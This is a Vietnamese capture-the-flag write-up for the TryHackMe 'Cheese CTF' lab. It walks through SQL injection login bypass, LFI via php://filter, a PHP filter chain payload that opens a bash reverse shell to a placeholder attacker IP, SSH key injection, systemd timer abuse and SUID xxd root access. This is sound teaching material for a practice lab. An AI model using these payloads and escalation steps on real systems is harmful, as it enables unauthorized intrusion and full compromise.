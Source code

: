 # Cheese CTF – TryHackMe Write-up

## 1. Recon (Khám phá ban đầu)

* Sử dụng **nmap** để quét dịch vụ:

  ```bash
  nmap -sC -sV -Pn <target_ip>
  ```
* Kết quả: nhiều port trả về banner giả, nhưng **port 80** chạy web app thực sự (Cheese Shop).

---

## 2. SQL Injection – Bypass Login

* Trên web có form login. Thử các payload classic:

  ```sql
  ' OR '1'='1'-- -
  ```
* Hoặc

  ```sql
  ' || '1'='1'-- -
  ```
* Thành công bypass và vào được **admin panel**.

---

## 3. LFI → RCE qua PHP Filter Chain

* Trong admin panel có `secret-script.php?file=` → có thể đọc file.
* Test:

  ```
  http://<ip>/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php
  ```
* Thấy được code PHP gốc → LFI confirmed.
* Tạo payload RCE bằng tool `php_filter_chain_generator.py`:

  ```bash
  python3 php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1\""); ?>'
  ```
* Lấy chuỗi payload và dùng trong URL → reverse shell về **nc listener**:

  ```bash
  nc -lvnp 4444
  ```
* Thu được shell `www-data`.

---

## 4. Từ www-data → user comte

* Check file writable:

  ```bash
  find /home/comte/.ssh/ -type f -writable
  ```
* Thấy `authorized_keys` writable → tạo key SSH:

  ```bash
  ssh-keygen -t rsa -f mykey
  cat mykey.pub >> /home/comte/.ssh/authorized_keys
  ssh -i mykey comte@<target_ip>
  ```
* Vào được user `comte`.

---

## 5. Privilege Escalation – comte → root

* Check sudo quyền:

  ```bash
  sudo -l
  ```
* Thấy có quyền chạy `systemctl` liên quan tới **exploit.timer**.
* Kiểm tra file unit `exploit.timer`, sửa `OnBootSec=` thành:

  ```ini
  OnBootSec=1s
  ```
* Reload và start timer:

  ```bash
  sudo systemctl daemon-reload
  sudo systemctl start exploit.timer
  ```
* Kết quả: `/opt/xxd` được tạo với SUID root.

---

## 6. Root bằng SUID `xxd`

* `xxd` là binary dump hex → có SUID root.
* Có thể dùng để đọc file root flag:

  ```bash
  /opt/xxd /root/root.txt | xxd -r
  ```
* Hoặc ghi SSH key vào `/root/.ssh/authorized_keys` để SSH root.

---

## 7. Tổng kết

### Khai thác chính:

1. **Recon (nmap)** → tìm web app.
2. **SQLi** → bypass login.
3. **LFI** → đọc source.
4. **PHP filter chain RCE** → shell www-data.
5. **SSH key injection** → user comte.
6. **Systemd timer exploit** → tạo SUID binary.
7. **SUID xxd abuse** → root flag.

### Tool dùng:

* `nmap`, `php_filter_chain_generator.py`, `nc`, `ssh-keygen`, `systemctl`, `xxd`

### Khái niệm học được:

* **SQLi**: chèn query để bypass/trích xuất DB.
* **LFI**: load file hệ thống.
* **RCE**: thực thi code từ xa.
* **Reverse shell**: kết nối shell ngược về attacker.
* **Privilege Escalation**: leo quyền.
* **SUID binary**: binary chạy với quyền owner (root).
* **Systemd timer abuse**: khai thác config để chạy code với root.

---

✅ Kết quả: Rooted thành công hệ thống!
